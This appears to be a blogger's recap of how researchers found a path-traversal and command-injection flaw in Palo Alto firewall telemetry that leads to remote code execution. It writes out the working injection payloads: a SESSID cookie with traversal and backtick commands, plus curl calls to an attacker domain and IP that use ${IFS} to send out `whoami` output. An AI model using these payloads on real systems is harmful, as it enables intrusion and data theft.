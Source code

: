 ### Telemetry isn't needed?
At the time of writing the watchtowr article the authors thought telemetry has to be enabled for this exploit to take place. It turns out that wasn't necessary, but is sounds like the telemetry functions are still a huge part of this exploit. I assume these endpoints are still there and available even if telemetry isn't enabled. By disabling telemetry the only thing turned off is the part where logs actually get sent to PA, but all mechanisms are in place regardless making this exploit possible on both telemetry enabled and disabled firewalls. 

The researcher starts looking through more logs and finds entries showing `curl` is being used to send logs back to PA. So then they turn to the code that they think is responsible for using `curl`.  It's in this piece of code they find a function that allows commands to be run in the systems shell `subprocess.Popen()`, and PA did try to sanitize this input with `shell=False` but the researcher found it was negated later in a function call that contained `shell=True`.

Turning to a directory controlled by telemetry `/opt/panlogs/tmp/device_telemetry/minute/` the researcher creates a file called `hellothere`, and checking the same logs that showed them curl was being used to send telemetry they saw hellothere being inserted into a CURL command! 
```
send_file: curl cmd: '/usr/bin/curl -v -H "Content-Type: application/octet-stream" -X PUT "<https://storage.googleapis.com/bulkreceiver-cdl-prd1-sg/telemetry/><serial-no>/2024/04/16/08/33//opt/panlogs/tmp/device_telemetry/minute/hellothere?GoogleAccessId=bulkreceiver-frontend-sg-prd@cdl-prd1-sg.iam.gserviceaccount.com&Expires=1713256984&Signature=<truncated>" --data-binary @/opt/panlogs/tmp/device_telemetry/minute/**hellothere** --capath /tmp/capath'
```

### The right payload
The researcher knows they are onto something here. Next they realized spaces were being removed, so they used the shell variable `IFS` as space instead. Finally, they had achieved remote code execution on the firewall sending
```
Cookie: SESSID=/../../../opt/panlogs/tmp/device_telemetry/minute/hellothere226`curl${IFS}attacker-infra.com`;
```

## High-Level Recap
Wow, we might have spent too much time on this, but I learned a lot for sure. Trying to put it together in my own words as concise as possible here is my recap.

Remote access SSLVPN appliance hosts unauthenticated HTTP endpoints reachable from the internet. For example, `./../../../opt/panlogs/tmp/device_telemetry/hour/aaa`. If file path is sent as `SESSID` parameter in `Cookie` header of POST request a zero length file is created at that location. 

Palo Alto telemetry sends data back to PA servers using `curl` as reflected by device logs. This includes new files created under `/opt/panlogs/tmp/device_telemetry/hour/aaa`. New filenames in this directory are not being properly sanitized, so commands can be injected into the new filename by enclosing them in backticks \` which tells the firewall to execute this string as a system command. The injected commands will run under same bash instance `curl` for telemetry uses.

In order to view command output `curl` is injected using backticks in the filename with `${IFS}`as space character to be used to send output to attacker controlled infrastructure. Attackers can then leverage command substitution within the injected `curl` command by setting the additional command as a URL variable using `$()`  For example, `curl${IFS}144.172.79.92:4444?user=$(whoami)`. This will cause the output of the `whoami` command to be sent to attacker controlled url using curl.
